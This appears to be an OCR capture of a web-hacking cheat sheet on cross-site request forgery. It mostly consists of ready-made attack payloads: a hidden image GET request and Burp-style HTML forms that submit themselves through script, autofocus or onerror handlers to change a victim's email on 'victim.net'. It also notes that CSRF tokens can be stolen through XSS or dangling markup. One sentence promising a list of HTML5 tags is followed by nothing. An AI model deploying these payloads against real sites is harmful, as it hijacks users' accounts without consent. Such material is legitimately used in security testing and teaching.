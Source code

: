 # Exploit Examples

  Exfiltrating CSRF Token
  If a CSRF token is being used as **defence **you could try to **exfiltrate it **abusing a XSS vulnerability or a Dangling Markup vulnerability.

 
GET using HTML tags

        <img src="http://google.es?param=VALUE" style="display:none" />
        <h1>404 - Page not found</h1>
        The URL you are requesting is no longer available


Other HTML5 tags that can be used to automatically send a GET request are:



# Form GET request

          <html>
            <!-- CSRF PoC - generated by Burp Suite Professional -->
            <body>
            <script>history.pushState('', '', '/')</script>
              <form method="GET" action="https://victim.net/email/change-email">
                <input type="hidden" name="email" value="some@email.com" />
                <input type="submit" value="Submit request" />
              </form>
              <script>
                document.forms[0].submit();
              </script>
            </body>
          </html>


# Form POST request



            <html>
              <body>
              <script>history.pushState('', '', '/')</script>
                <form action="https://victim.net/email/change-email" id="csrfform">
                  <input type="hidden" name="email" value="some@email.com" autofocus onfocus="csrfform.submit();" /> <!-- Way 1 to autosubmit -->
                  <input type="submit" value="Submit request" />
                  <img src=x onerror="csrfform.submit();" /> <!-- Way 2 to autosubmit -->
                </form>
                <script>
                  document.forms[0].submit(); //Way 3 to autosubmit
                </script>
              </body>
            </html>
